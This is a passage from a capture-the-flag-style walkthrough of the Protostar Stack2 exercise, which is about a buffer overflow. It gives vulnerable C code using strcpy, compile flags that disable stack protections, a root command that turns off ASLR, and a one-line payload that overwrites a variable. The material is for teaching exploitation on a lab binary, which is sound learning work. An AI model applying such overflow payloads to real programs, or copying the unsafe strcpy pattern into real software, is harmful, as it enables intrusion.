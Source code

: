 ```c
  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

#### 1.2 Compilation

Terminal command to compile with debug symbols + without pie + without nx-bit + Disable canaries + Disable ASLR + for x86:

```js
sudo bash -c 'echo 0 > /proc/sys/kernel/randomize_va_space'

gcc -o 2 2.c -z execstack -fno-stack-protector -m32 -no-pie -g
```

### 2. Solution 

Okay, this challenge is pretty similar to Stack-1.
Hence I am not explaining again.

The only difference is the user-controlled env variable GREENIE is used in code and it is copied to "buffer" via strcpy(buffer, variable). The goal is same; etting the "modified" variable to 0x0d0a0d0a.

```bash
GREENIE=`python -c "print 'A' * 64 + '\x0a\x0d\x0a\x0d'"` ./2
you have correctly modified the variable
```

## Protostar-Stack3 Solution

### 1. Introduction

This is a poc solution for the "Stack3" challenge of Protostar. It's short and hopefully it's easy for everyone who wants to have a look.

Source:
[https://web.archive.org/web/20170417130221/https://exploit-exercises.com/protostar/stack3/](https://web.archive.org/web/20170417130221/https://exploit-exercises.com/protostar/stack3/) 
